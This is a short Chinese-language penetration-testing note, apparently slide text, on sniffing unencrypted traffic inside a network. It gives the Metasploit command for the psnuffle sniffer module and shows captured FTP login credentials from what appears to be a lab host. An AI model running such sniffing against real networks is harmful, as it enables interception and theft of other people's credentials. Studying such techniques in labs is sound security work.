

# 嗅探抓包 		内网嗅探但是前提是数据没有进行加密
msf> use auxiliary/sniffer/psnuffle
Run
可以查询到内网一大堆信息数据
[*] Successful FTP Login: 192.168.149.133:46946-192.168.31.243:21 >> msfadmin / msfadmin